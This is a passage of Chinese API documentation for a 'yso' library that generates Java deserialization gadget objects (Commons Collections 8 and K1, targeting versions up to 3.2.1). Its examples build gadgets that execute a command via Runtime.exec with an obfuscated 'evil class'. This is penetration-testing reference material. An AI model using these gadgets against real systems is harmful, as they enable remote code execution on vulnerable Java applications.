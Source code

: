 options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = &#34;whoami&#34;
className = &#34;KEsBXTRS&#34;
gadgetObj,err = yso.GetCommonsCollections8JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetCommonsCollections8JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollectionsK1JavaObject

#### 详细描述
GetCommonsCollectionsK1JavaObject 基于Commons Collections &amp;lt;=3.2.1 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = &#34;whoami&#34;
className = &#34;KEsBXTRS&#34;
gadgetObj,err = yso.GetCommonsCollectionsK1JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```
